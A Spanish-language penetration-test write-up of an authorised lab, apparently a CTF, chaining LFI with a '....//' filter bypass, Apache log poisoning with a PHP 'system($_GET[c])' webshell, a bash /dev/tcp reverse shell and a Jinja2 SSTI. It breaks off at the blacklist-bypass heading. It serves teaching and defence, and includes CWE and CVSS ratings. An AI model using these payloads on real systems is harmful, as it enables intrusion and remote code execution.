# Auditoría de seguridad ofensiva — FRYERFORCE

**Whoami-Labs · Laboratorio Hard · 16 de noviembre de 2026**

| Ficha del laboratorio | |
|---|---|
| **Objetivo** | `172.17.0.2` — contenedor Docker aislado |
| **Atacante** | Kali Linux — `172.17.0.1` |
| **Analista** | chifay |
| **Alcance** | TCP/22 y TCP/80; servicios internos descubiertos durante la post-explotación |
| **Dificultad** | Hard |
| **Resultado** | Compromiso total: `www-data` → `industrial_chef` → `root` |
| **Flags** | `Whoami{REDACTED}` · `Whoami{REDACTED}` |
| **MITRE ATT&CK** | T1190, T1059.004, T1574.002, T1548.001 |
| **NIST** | OM-ADM-001 · SP 800-53: SI-10, AC-6, CM-6, SI-2 |

> Actividad realizada en un laboratorio autorizado con fines educativos. No debe reproducirse fuera de entornos con permiso explícito.

> **Nota de publicación:** las banderas se muestran como `Whoami{REDACTED}`. En las capturas `13_user_flag.png` y `19_root_flag.png` se difuminó únicamente el contenido situado entre llaves; no se incluyen credenciales en el paquete.

---

## 1. Resumen ejecutivo

FRYERFORCE es un laboratorio de dificultad alta que encadena una inclusión local de archivos (LFI), un *log poisoning* para alcanzar ejecución remota de código, el pivote a un servicio Flask interno vulnerable a SSTI y, finalmente, un *shared library hijacking* sobre un binario SUID con un `RUNPATH` escribible.

La causa raíz inicial es una única línea de PHP: el parámetro `sensor` se pasa directamente a `include()` después de un filtro de *path traversal* incompleto. Ese fallo permitió leer archivos arbitrarios, envenenar el `access.log` de Apache con una *webshell* PHP y ejecutar comandos como `www-data`. Desde ahí, la enumeración de conexiones internas reveló una API Flask escuchando solo en `127.0.0.1:8000`. La API interpolaba el parámetro `name` directamente en una plantilla Jinja2 y confiaba en una lista negra de caracteres que se pudo evadir con filtros `attr` y escapes hexadecimales. El resultado fue ejecución de comandos como `industrial_chef` y la captura de la primera flag.

La escalada final abusó de `/usr/bin/fryer_audit`, un binario SUID root que declara `NEEDED libfryer.so` y un `RUNPATH` apuntando a `/var/tmp/libs`. Como `/var/tmp` es escribible por cualquier usuario y el directorio `libs` no existía, se compiló una biblioteca maliciosa cuyo constructor se ejecuta con privilegios de root antes de `main()`. La segunda flag quedó accesible y se obtuvo una shell con `uid=0`.

**Valoración global: Crítica.** Un atacante remoto sin credenciales podía recorrer toda la cadena hasta root. La aplicación web no exigía autenticación y no existía una separación de red efectiva: la API interna era alcanzable desde el propio host.

### 1.1 Cadena de ataque

| # | Fase | Técnica | Resultado |
|---|---|---|---|
| 1 | Reconocimiento | `nmap -sV -sC` | SSH 8.4p1 y Apache 2.4.66 expuestos |
| 2 | Acceso inicial | LFI con bypass `....//` | Lectura de `/etc/passwd` y del código fuente |
| 3 | Ejecución | *Log poisoning* del `access.log` | RCE como `www-data` |
| 4 | Post-explotación | `netstat -tlnp` | API Flask en `127.0.0.1:8000` |
| 5 | Movimiento interno | SSTI con bypass de lista negra | RCE como `industrial_chef` + flag de usuario |
| 6 | Escalada | *Shared library hijacking* vía `RUNPATH` | `root` + flag final |

---

## 2. Alcance y metodología

La auditoría se ejecutó desde una máquina Kali Linux conectada a la misma red Docker que el objetivo. El alcance autorizado fue el host `172.17.0.2`, sus servicios publicados y cualquier servicio interno alcanzable una vez obtenido un punto de apoyo. No se realizaron pruebas de denegación de servicio ni se instaló persistencia duradera; las modificaciones se limitaron a los artefactos de explotación y a la limpieza del log descrita en el Anexo C.

La metodología siguió un enfoque inicial de caja negra, complementado con revisión de código una vez obtenido acceso al contenedor:

1. **Reconocimiento:** identificación de puertos, servicios, versiones y tecnología web.
2. **Enumeración:** análisis del parámetro `sensor`, comportamiento de la aplicación y rutas de archivos.
3. **Explotación:** LFI, *log poisoning*, *reverse shell* y SSTI.
4. **Post-explotación:** enumeración de procesos, conexiones, usuarios y permisos.
5. **Escalada de privilegios:** revisión de binarios SUID, dependencias dinámicas y rutas de bibliotecas.
6. **Documentación:** captura de evidencia, hashes y recomendaciones.

**Herramientas utilizadas:** `nmap`, `curl`, `netcat`, `netstat`, `base64`, `readelf`, `gcc`, `python3` y utilidades estándar de Kali Linux.

### 2.1 Entorno identificado

| Elemento | Detalle |
|---|---|
| Sistema operativo del contenedor | Debian GNU/Linux 11 (bullseye) |
| Hostname | `7f2fb969a497` |
| Servidor web | Apache 2.4.66 (Debian) |
| Runtime PHP | PHP 7.4.33 (mod_php) |
| SSH | OpenSSH 8.4p1 Debian 5+deb11u5 |
| Usuario del servicio web | `www-data` (uid 33) |
| Usuario del servicio interno | `industrial_chef` (uid 1000) |

---

## 3. Reconocimiento

El escaneo inicial se concentró en los puertos publicados por el contenedor:

```bash
nmap -sV -sC -p22,80 172.17.0.2
```

Resultado relevante:

| Puerto | Estado | Servicio | Versión |
|---|---|---|---|
| 22/tcp | open | ssh | OpenSSH 8.4p1 Debian 5+deb11u5 |
| 80/tcp | open | http | Apache httpd 2.4.66 (Debian) |



*Figura 1 — Enumeración de servicios. Solo 22 y 80 están publicados; el resto de la superficie se descubrirá desde dentro.*

La aplicación web se presenta como un panel de monitorización de sensores. La página principal enlaza a `?sensor=temp_logs.txt` y devuelve una lectura de temperatura:

```bash
curl -sS 'http://172.17.0.2/?sensor=temp_logs.txt'
curl -sS 'http://172.17.0.2/' | head -c 200
```

Salida:

```text
Temperature: 180C - Oil: Stable

<h1>FryerForce - Sensor Monitoring System</h1><p>Select a sensor module to view logs: <a href='?sensor=temp_logs.txt'>Temperature Logs</a></p>
```



*Figura 2 — Funcionalidad legítima del panel. El parámetro `sensor` recibe un nombre de archivo, un indicio claro de inclusión dinámica.*

El parámetro `sensor` no valida extensión, ruta ni tipo de archivo. Esa ausencia de validación es el punto de partida de toda la cadena.

---

## 4. Hallazgo F-01 — Inclusión local de archivos con filtro evadible

### 4.1 Análisis del código

La lectura del código fuente mediante el wrapper `php://filter` confirmó la implementación vulnerable:

```bash
curl -sS 'http://172.17.0.2/?sensor=php://filter/convert.base64-encode/resource=/var/www/html/index.php' | base64 -d
```

```php
<?php
    $file = $_GET['sensor'];
    if(isset($file)){
        // Filtro contra ../ y ..\ para elevar dificultad
        $file = preg_replace('/(\.\.\/|\.\.\\\\)/i', '', $file);
        include($file);
    } else {
        echo "<h1>FryerForce - Sensor Monitoring System</h1>";
        echo "<p>Select a sensor module to view logs: <a href='?sensor=temp_logs.txt'>Temperature Logs</a></p>";
    }
?>
```

El filtro aplica **una única pasada de sustitución** sobre `../` y `..\`, sin volver a examinar el resultado. No canonicaliza la ruta, no comprueba que el archivo esté dentro de un directorio permitido y no limita el wrapper utilizado. Además, `include()` interpreta el contenido como PHP, por lo que no se trata solo de una lectura de archivos: cualquier archivo cuyo contenido pueda controlar el atacante se convierte en código ejecutable.

### 4.2 Explotación

El intento directo de *path traversal* falla porque el filtro elimina la secuencia y rompe la ruta. La respuesta HTTP sigue siendo 200, pero el cuerpo queda vacío:

```bash
curl -sS -o /dev/null -w 'HTTP %{http_code}  bytes=%{size_download}\n' \
  'http://172.17.0.2/?sensor=../../../../etc/passwd'
```

```text
HTTP 200  bytes=0
```

La evasión clásica consiste en duplicar los puntos y barras: `....//` contiene `../` a partir del tercer carácter; tras la sustitución queda `../`. Encadenando el patrón se recupera el recorrido completo:

```bash
curl -sS 'http://172.17.0.2/?sensor=....//....//....//....//etc/passwd' | head -3
```

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```



*Figura 3 — El intento directo devuelve 0 bytes; la variante `....//` recupera `/etc/passwd`.*

También funcionan las rutas absolutas, ya que el filtro solo actúa sobre `../`:

```bash
curl -sS 'http://172.17.0.2/?sensor=/etc/passwd'
```

La lectura del código fuente se realizó con el wrapper `php://filter`, que además permite exfiltrar archivos PHP sin que el intérprete los ejecute:



*Figura 4 — Código fuente de `index.php` obtenido con `php://filter`. Se observa el filtro incompleto y el `include()` directo.*

### 4.3 Impacto y clasificación

| Campo | Valor |
|---|---|
| **CWE** | CWE-22 (Path Traversal), CWE-98 (PHP File Inclusion) |
| **Severidad** | Crítica |
| **CVSS 3.1 estimado** | 9.8 — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **Evidencia** | Figuras 3 y 4 |

El impacto no se limita a la confidencialidad: al tratarse de `include()`, un atacante que controle el contenido de un archivo leído por el proceso web obtiene ejecución de código. En este laboratorio, el vector elegido fue el log de Apache.

---

## 5. Hallazgo F-02 — Log poisoning y ejecución remota de código

### 5.1 Fundamento

Apache escribe en `access.log` la petición completa, incluido el encabezado `User-Agent`. Si el log es legible por el usuario de PHP y se incluye mediante la LFI, el intérprete ejecutará cualquier bloque `<?php ... ?>` que aparezca en él.

El payload debe evitar las comillas dobles: Apache las escapa como `\"` al escribir el log y el bloque PHP resultante deja de ser válido. Por eso se utilizó:

```php
<?php system($_GET[c]); ?>
```

La petición de envenenamiento puede dirigirse a cualquier recurso válido; lo importante es que el `User-Agent` quede registrado:

```bash
curl -s -A '<?php system($_GET[c]); ?>' \
  'http://172.17.0.2/?sensor=temp_logs.txt' -o /dev/null
```

La comprobación se hizo leyendo el propio log con el wrapper base64, para evitar que la lectura ejecutase el payload antes de tiempo:

```bash
curl -s 'http://172.17.0.2/?sensor=php://filter/convert.base64-encode/resource=/var/log/apache2/access.log' \
  | base64 -d | tail -1
```

```text
172.17.0.1 - - [16/Nov/2026:15:21:58 +0000] "GET /?sensor=temp_logs.txt HTTP/1.1" 200 180 "-" "<?php system($_GET[c]); ?>"
```



*Figura 5 — El `User-Agent` malicioso queda almacenado en el log de Apache y se recupera en claro con `php://filter`.*

### 5.2 Ejecución

Al incluir el log, PHP emite el texto HTML de las líneas y ejecuta el bloque PHP inyectado. El parámetro `c` transporta el comando:

```bash
curl -s 'http://172.17.0.2/?sensor=/var/log/apache2/access.log&c=id' \
  | grep -o 'uid=[^"]*'
```

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



*Figura 6 — Confirmación de RCE como `www-data` usando el log envenenado como webshell.*

| Campo | Valor |
|---|---|
| **CWE** | CWE-94 (Code Injection), CWE-117 (Improper Output Neutralization for Logs) |
| **Severidad** | Crítica |
| **CVSS 3.1 estimado** | 9.8 — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **Evidencia** | Figuras 5 y 6 |

La combinación de LFI + *log poisoning* convierte una lectura de archivos en una ejecución remota completa. La única condición es que el proceso PHP pueda leer el archivo de log, circunstancia que se cumplía en el contenedor.

---

## 6. Shell como `www-data` y enumeración interna

### 6.1 Reverse shell

Se abrió un listener en la máquina atacante. `stty -echo` evita que la terminal local muestre los caracteres que llegan desde la shell remota:

```bash
stty -echo; nc -lvnp 4449
```

La ejecución se lanzó a través del parámetro `c` de la webshell, con la URL codificada para que los espacios y caracteres especiales llegasen intactos:

```bash
curl -s --get \
  --data-urlencode 'sensor=/var/log/apache2/access.log' \
  --data-urlencode 'c=bash -c "bash -i >& /dev/tcp/172.17.0.1/4449 0>&1"' \
  http://172.17.0.2/
```

El listener recibió la conexión desde `172.17.0.2`:



*Figura 7 — Conexión entrante y prompt de shell en `/var/www/html`.*

La identidad y el contexto se confirmaron con comandos básicos:

```bash
id; hostname; pwd
```

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
7f2fb969a497
/var/www/html
```



*Figura 8 — Confirmación de usuario, hostname y directorio de trabajo.*

### 6.2 Descubrimiento de servicios internos

La enumeración de sockets en escucha reveló un servicio que no estaba publicado al exterior:

```bash
netstat -tlnp
```

```text
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```



*Figura 9 — `netstat` muestra la API Flask escuchando únicamente en loopback (`127.0.0.1:8000`).*

El servicio se identificó como una API de informes:

```bash
curl -s http://127.0.0.1:8000/; echo
```

```html
<h1>FryerForce Industrial API</h1><p>Running... Access /report?name=... for official reports.</p>
```



*Figura 10 — Endpoint raíz de la API interna. El mensaje indica el parámetro `name` de `/report`.*

El arranque del servicio se define en `/usr/local/bin/entrypoint.sh`:

```bash
service apache2 start
su - industrial_chef -c "python3 /opt/salt_api.py &"
/usr/sbin/sshd -D
```

La API se ejecuta, por tanto, con el usuario `industrial_chef`, no con `www-data`. Esa separación de privilegios explica por qué el siguiente paso no era una escalada directa a root, sino un salto a otro contexto de usuario.

---

## 7. Hallazgo F-03 — SSTI en la API interna de Flask

### 7.1 Análisis del código

El código de `/opt/salt_api.py` se revisó en el contenedor. La parte relevante es:

```python
from flask import Flask, request, render_template_string

@app.route("/report")
def report():
    name = request.args.get('name', 'General')

    # Blacklist agresiva para Nivel Difícil (5 pts)
    # Bloqueamos '.', '_', '[', ']' y palabras clave comunes de Jinja2
    blacklist = [".", "_", "[", "]", "request", "config", "self", "class"]
    for word in blacklist:
        if word in name.lower():
            return f"<h1>Security Violation! Forbidden word or character detected: {word}</h1>", 403

    template = f"<h1>Industrial Report: {name}</h1>"
    return render_template_string(template)
```

Hay dos problemas encadenados:

1. **La entrada del usuario se concatena en la plantilla.** El *f-string* inserta `name` antes de llamar a `render_template_string`, de modo que el valor se interpreta como código Jinja2.
2. **La lista negra es insuficiente.** Bloquea puntos, guiones bajos, corchetes y algunas palabras, pero no los filtros de Jinja2 (`attr`), ni los escapes hexadecimales (`\x5f`), ni funciones globales como `lipsum`.

### 7.2 Confirmación de la evaluación

Una expresión aritmética sencilla confirma que la plantilla se evalúa en el servidor:

```bash
curl -s -g 'http://127.0.0.1:8000/report?name={{7*7}}'
```

```html
<h1>Industrial Report: 49</h1>
```



*Figura 11 — `{{7*7}}` se resuelve como `49`, confirmando la inyección de plantilla.*

### 7.3 Bypass de la lista negra

